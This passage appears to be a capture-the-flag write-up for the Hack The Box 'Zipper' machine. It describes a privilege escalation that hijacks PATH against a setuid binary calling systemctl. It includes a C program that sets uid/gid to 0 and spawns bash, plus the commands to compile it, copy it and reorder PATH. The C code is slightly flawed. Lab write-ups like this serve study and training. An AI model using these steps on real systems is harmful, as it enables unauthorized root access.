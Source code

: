 ```
[^_]
start or stop?: 
start
systemctl daemon-reload && systemctl start zabbix-agent
stop
systemctl stop zabbix-agent
[!] ERROR: Unrecognized Option
...
```

Looks like it uses libc and just runs systemctl, triggering zabbix to restart.

We tried to overload libc.so with our own, but no bueno. Can we do anything with abusing paths? Given it's trying to run systemctl we can overload it by redefining the path variable to point to a directory of our choosing with a replacement binary, that instead of running systemctl, runs a binary with the same name as systemctl, except our binary will give us r00t.
```
#include <stdio.h>
int main(void) {
       setgid(0); setuid(0);
       system("/bin/bash",NULL,NULL); 
}
```

The above code will be our privesc. As zabbix-start is running with a sticky bit we will be able to spawn a process as root and call it rev.c.

The following command will compile the above code. One of the things we need to check for is the OS architecture. We're on a 64-bit system locally (kali) but the server is 32-bit, we can check with:
```
uname -a
Linux zipper 4.15.0-33-generic #36-Ubuntu SMP Wed Aug 15 13:44:35 UTC 2018 i686 i686 i686 GNU/Linux
```

To compile:
```
gcc rev.c -o systemctl -m32 
```

And copy the code over:
```
scp -i zapper_rsa ~/Documents/htb/Zipper/rev zapper@10.10.10.108:/tmp/thoseguys/rev
```

And to update our path we then do the following. What we are doing here is adding our directory first in the path list, which will get looked in first, meaning our chosen binary will be run before anything else.
```
zapper@zipper:/tmp/thoseguys$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
zapper@zipper:/tmp/thoseguys$ export PATH=/tmp/thoseguys:$PATH
zapper@zipper:/tmp/thoseguys$ echo $PATH
/tmp/thoseguys:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
```

And Finally run zabbix-start and we are away!
![231342373.png]({{site.baseurl}}/Images/Zipper/231342373.png)

